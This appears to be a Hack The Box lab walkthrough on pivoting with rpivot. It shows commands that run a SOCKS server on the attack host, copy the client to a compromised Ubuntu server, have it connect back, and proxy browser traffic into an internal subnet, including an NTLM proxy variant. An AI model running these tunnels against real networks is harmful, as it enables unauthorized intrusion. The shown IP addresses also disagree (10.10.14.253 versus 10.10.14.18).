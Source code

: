 #### Cloning rpivot
  Cloning rpivot
```shell-session
Tachipy@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```
#### Installing Python2.7
  Installing Python2.7
```shell-session
Tachipy@htb[/htb]$ sudo apt-get install python2.7
```
We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

#### Running server.py from the Attack Host
  Running server.py from the Attack Host
```shell-session
Tachipy@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
#### Transfering rpivot to the Target
  Transfering rpivot to the Target
```shell-session
Tachipy@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### Running client.py from Pivot Target
  Running client.py from Pivot Target
```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.253 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```
#### Browsing to the Target Webserver using Proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```
#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```